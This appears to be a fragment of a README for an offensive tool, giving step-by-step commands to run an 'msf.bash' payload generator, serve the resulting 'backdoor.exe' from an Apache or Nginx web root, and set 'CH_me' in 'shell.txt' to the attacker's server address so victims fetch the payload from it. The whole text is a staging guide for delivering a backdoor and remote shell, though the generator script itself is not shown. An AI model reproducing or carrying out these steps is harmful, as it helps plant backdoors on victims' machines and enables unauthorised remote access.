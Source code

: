 <ol>
        <li>Run the provided `msf.bash` script:</li>
        <pre><code>./msf.bash</code></pre>

<li>Start your Apache or Nginx web server.</li>
        <p>Choose one of the following commands based on your web server:</p>
        <p>For Apache:</p>
        <pre><code>sudo systemctl start apache2</code></pre>
        <p>For Nginx:</p>
        <pre><code>sudo systemctl start nginx</code></pre>

<li>Upload the file created by `msf.bash` to your web server's root directory (usually `/var/www/html`). You can use tools like `mv` to move the file:</li>
        <pre><code>mv backdoor.exe /var/www/html/</code></pre>

 <li>Once the file is in the `/var/www/html/` directory, locate and open the `shell.txt` file:</li>
        <pre><code>sudo nano shell.txt</code></pre>

 <li>Edit the `CH_me` in `shell.txt` with your Apache or Nginx server's IP address.</li>
        <p>Replace `CH_me` with the IP address of your server, e.g.,</p>
        <pre><code>CH_me=http://your_apache_or_nginx_ip/</code></pre>
</ol>
